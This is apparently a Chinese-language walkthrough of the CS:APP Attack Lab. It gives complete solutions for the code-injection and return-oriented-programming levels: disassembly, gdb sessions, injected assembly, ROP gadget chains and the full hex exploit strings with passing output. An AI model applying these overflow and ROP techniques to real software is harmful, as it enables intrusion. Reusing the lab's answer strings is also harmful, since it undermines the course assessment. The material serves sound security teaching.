








## 前期准备
和Bomb-lab一样，我们反汇编两个可执行文件，得到汇编代码。
``` bash
$ objdump -d ctarget > ctarget.asm
$ objdump -d rtarget > rtarget.asm
```
## PART I: Code Injection Attacks
### level 1
这一level和书上3.10.3的例子是一样的，由于没有进行目标缓冲区的大小界定，可能会冲击掉栈的值，而这题的目标就是让我们在getbuf返回的时候调用的是touch1函数。
几个主要的函数如下：
``` c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}

void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

根据反汇编，getbuf函数如下，其申请了0x28大小的栈。
``` x86asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
而Gets函数基本上是从标准输入读入字符串到指定的地址，具体的代码就不粘贴了，大家可以参考反汇编的代码，和书本上的gets函数基本差不多（就多了一个存储读入的字符的功能，save_char和save_term）。

可以发现，要想冲击掉getbuf函数的返回地址，首先我们需要填满0x28的缓冲区，然后将touch1的地址填入到返回地址中，而touch1的地址是4017c0，根据小端法，在之后填充`c0 17 40`，我们填入以下数据即可，将以下数据写入answer文件夹下level1文件中：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```
然后我们试一试（-q是取消向cmu的服务器发送成绩，我们是自学，自然访问不了其服务器）：
``` bash
$ ./hex2raw -i answer/level1 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40
```
用图表示level1如下所示：
<div align=center></div>

### level 2
这个阶段的解题思路和上面是类似的，我们还是需要拦截程序流，跳转到touch2函数，但是还需要满足touch2的输入val=cookie（0x59b997fa），如下：
``` c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
  	   printf("Touch2!: You called touch2(0x%.8x)\n", val);
  	   validate(2);
    } else {
  	   printf("Misfire: You called touch2(0x%.8x)\n", val);
  	   fail(2);
    }
    exit(0);
}
```
思路如下：
* 将正常的返回地址设置为注入代码的地址，本次直接从栈顶注入，所以将返回地址设置为`%rsp`的值；
* 将cookie值移入到`%rdi`；
* 想要调用touch2，又不能直接使用call、jmp指令，只能使用ret改变当前指令寄存器的只想地址，在此之前将touch2的地址压栈即可。

注入代码为：
``` x86asm
/* level2-inject.s */
movq $0x59b997fa, %rdi  # set input val cookie
pushq $0x4017ec         # touch2 address
ret
```
执行以下操作
``` x86asm
$ gcc -c level2-inject.s
$ objdump -d level2-inject.o

level2-inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq    
```
接下来，利用gdb，找到调用getbuf时`%rsp`的地址。
``` bash
$ gdb ctarget
(gdb) b getbuf
Breakpoint 1 at 0x4017a8
(gdb) r -q
Starting program: /home/topeet/smb_share/workspace/CSAPP/CSAPP-Labs/labs/attack-lab/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, 0x00000000004017a8 in getbuf ()
(gdb) stepi 2
0x00000000004017af in getbuf ()
(gdb) i registers rsp
rsp            0x5561dc78	0x5561dc78
(gdb) 
```
所以我们填充注入代码如下，将以下数据写入answer文件夹下level2文件中：
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```
然后执行：
``` bash
$ hex2raw -i answer/level2 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 
```
用图表示level2如下所示，我们应该庆幸作者预留了40个byte大小的位置，因为当开始执行从栈顶注入的代码时，栈指针为`0x5561dca0`，此时执行`pushq $0x4017ec`时，栈指针会变为`0x5561dc98`，如果预留了小于24个字节大小时，执行`pushq $0x4017ec`时会冲掉`0x5561dc80`，就无法到`retq`语句了。
<div align=center></div>

### level 3
这个level考察的依然是代码注入，其函数如下：
``` c
void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}

/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
还是需要调用touch3，但是这次传入的参数是一个字符串，同时函数内部用了另外一个函数进行比较，这次要比较的是`"59b997fa"`这个字符串。

但是我们不能将字符串放在getbuf的栈帧，因为hexmatch函数会开辟110个字节的栈帧大小，肯定会冲掉原栈帧，所以我们需要将字符串放在安全的地址，也就是test的栈帧。我们知道，test函数的返回地址是`0x5561dca0`，那么其运行时栈顶地址就是`0x5561dca8`。我们要做的就是把字符串存在这个地址，并将这个地址送到%rdi中，然后将touch3的首地址压栈，虽然返回，所以我们注入的汇编代码就是：
``` x86asm
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```
执行以下操作
``` bash
$ gcc -c level3-inject.s 
$ objdump -d level3-inject.o 

level3-inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0: 48 c7 c7 a8 dc 61 55  mov    $0x5561dca8,%rdi
   7: 68 fa 18 40 00        pushq  $0x4018fa
   c: c3                    retq   
```
之后我们可以将字符串`"59b997fa"`转换为ascii的十六进制表示`35 39 62 39 39 37 66 61 00`，千万不能忘了最后`'\0'`表示字符串结尾。

所以我们填充注入代码如下，将以下数据写入answer文件夹下level3文件中：
```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```
结果如下所示：
``` bash
$ ./hex2raw < answer/level3 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
用图表示如下所示：
<div align=center></div>

## PART II: Return-Oriented Programming
代码注入在这个部分可能就不好使了，因为现代编译器和操作系统实现了许多机制，以避免遭受缓冲区溢出的攻击，如writeup所说，其采取了以下方式去阻挠代码注入攻击：
1. 栈随机化：栈的位置在每次运行时都有变化，使得无法确定注入的代码将位于何处；
2. 限制可执行代码区域：会将保存在栈的内存部分标记为不可执行，因此将程序注入到栈内，也将会爆出segmentation fault。

然而，我们可以通过执行现有代码而不是注入新代码来在程序中完成有用的事情，这种方式成为ROP(Return-Oriented Programming)。其策略是在现有程序中标识由一个或多个指令以及指令ret组成的字节序列，这种段称为*gadget*，如下图所示：
<div align=center></div>

后续writeup还举了一个例子，感兴趣的同学可以去看看，我们直接跳到level2。

### level 2
这题和第一部分的level2要求是一样的，就是执行touch2，并且根据writeup上的提示：
1. 所需的*gadgets*在start_farm到mid_farm之间；
2. 只需要两个*gadget*；
3. popq指令可以将数值从栈中弹出数据，所以攻击字符串应该是地址和数据的组合。

思路和之前还是一样：
1. 将cookie放到%rdi，这需要mov命令；
2. 但是所给的mov指令只有从一个寄存器到另一个寄存器的，没有直接mov内存（栈）到寄存器的；
3. 所以需要pop指令将栈中cookie弹出到一个寄存器，然后再用mov指令移动到%rdi中；
4. 或者说，我们能直接pop将cookie弹出到%rdi也行；

首先观察下表，因为在start_farm到end_farm之间没有找到`5f`这条指令，所以排除上述第4条可能性。
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表A</div>
  <br>
    
</div>

观察下表，能mov到%rdi的指令是最后一列：
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表B</div>
  <br>
  
</div>

经过排查，只有满足以下指令的`48 89 c7`和`58`字段被找到：
``` x86asm
popq %rax       # 58
movq %rax, %rdi # 48 89 c7
```
其中让人满意的分别是，因为`90`指令是`nop`，没有操作。
``` x86asm
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3                    retq

00000000004019c3 <setval_426>:
  4019c3: c7 07 48 89 c7 90     movl   $0x90c78948,(%rdi)
  4019c9: c3                    retq

00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3

00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3
```

我们给出四种答案的填充，分别验证如下：
1. 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-1 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

2. 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-2 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
3.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-3 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
4.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-4 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

其实就是排列组合两行地址，图我们就不画那么多了，针对最后一种情况画个图，如下所示：
<div align=center></div>

### level 3
在这一阶段中，我们需要做的就是把字符串的起始地址传送到%rdi，然后调用touch3函数。
因为每次栈都是随机的，所以无法直接用地址来索引字符串的位置，只能用栈顶地址+偏移量来索引字符串的起始地址。而从farm中我们可以找到一个*gadget*来实现两个寄存器值的相加`lea (%rdi,%rsi,1),%rax`。

解题思路：
1. 首先获取%rsp的值，传送到%rdi；
2. 其次获取字符串的偏移量，传送到%rsi；
3. 调用`lea (%rdi,%rsi,1),%rax`，将字符串首地址传送到%rax；
4. 利用mov指令将%rax传送到%rdi；
5. 调用touch3函数。

步骤如下：
1 获取%rsp的值：
参考表B，在farm中寻找到的符合源操作寄存器为%rsp的只有指令`movq %rsp, %rax`的指令字节`40 89 e0`，符合的有下图所示的两种，所以第一步的gadget地址为：0x401a06或者0x401aad。
``` x86asm
0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3                    retq

0000000000401aab <setval_350>:
  401aab: c7 07 48 89 e0 90     movl   $0x90e08948,(%rdi)
  401ab1: c3                    retq
```

2 将%rax的内容传送到%rdi：
`movq %rax, %rdi`的指令字节`40 89 c7`，符合的有两个，所以第二步的地址为：0x4019a2或者0x4019c5。
``` x86asm
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3                    retq

00000000004019c3 <setval_426>:
  4019c3: c7 07 48 89 c7 90     movl   $0x90c78948,(%rdi)
  4019c9: c3 
```

3 利用pop指令弹出偏移量：
查询表B，只有`popq %rax`的指令`58`符合要求，符合的有以下两个，所以第三步的地址为：0x4019ab或者0x4019cc。
``` x86asm
00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3

00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3
```

4 将%rax内容传送到%rsi：
查询表B，`mov %rax, %rsi`指令为`48 89 c6`，这个在farm中不存在，可以发现，以%rax为源寄存器的movq指令，只有`mov %rax, %rdi`，但是此时rdi的值已经是栈地址了，所以不能动，那只能打movl的主意了。
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表C</div>
  <br>
  
</div>

  1) 如上表所示，在farm中，以%eax为源寄存器的操作码，且不冲击%edi的只有`movl %eax, %edx`的操作码`89 c2`了，所以满足这一小步的地址：0x4019dd。
``` x86asm
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3
```
  2) 不能忘记我们的目标是%rsi/%esi，再查表B和C，以%rdx/%edx为源的操作码只有`movl %edx, %ecx`的操作码`89 d1`，符合的地址：0x401a70（这里后面跟着字节91，想必也是无用的字节？）。
``` x86asm
0000000000401a6e <setval_167>:
  401a6e: c7 07 89 d1 91 c3     movl   $0xc391d189,(%rdi)
  401a74: c3
```
  3) 再查表B和C，以%rcx/%ecx为源的操作码只有`movl %ecx, %esi`的操作码`89 ce`，且目标正是%esi，符合的地址：0x401a13。
``` x86asm
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3
```

5 调用`lea (%rdi,%rsi,1),%rax`，将字符串首地址传送到%rax
这一步即直接使用以下地址即可：0x4019d6。
``` x86asm
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq   
```

6 利用mov指令将%rax传送到%rdi（同步骤2）

7 计算偏移量
执行步骤1时，%rsp所指位置已经指向了步骤2的位置，根据以上分析，从步骤三开始需要指令地址占据栈区的有6个，偏移量占据一行，touch3占据一行，所以中间至少需要隔绝8行（一行64位），然后将字符串首地址放在之上，即偏移量为`9 * 8 = 72`，所以填写十六进制0x48。

根据以上分析，我们可以画出一种解法的图如下所示：
<div align=center></div>

所以我们填充的数字如下所示：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```
测试结果如下：
``` bash
$ ./hex2raw -i answer/part2-level3 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
当然也有其他的一些正确结果，根据以上步骤里的随机组合就好了，这里就不验证了。

## 总结
真个lab做下来，受益良多，对于栈有了更深的理解，认识到了缓冲区溢出可以造成的严重后果，写出更安全的代码需要注意的点。
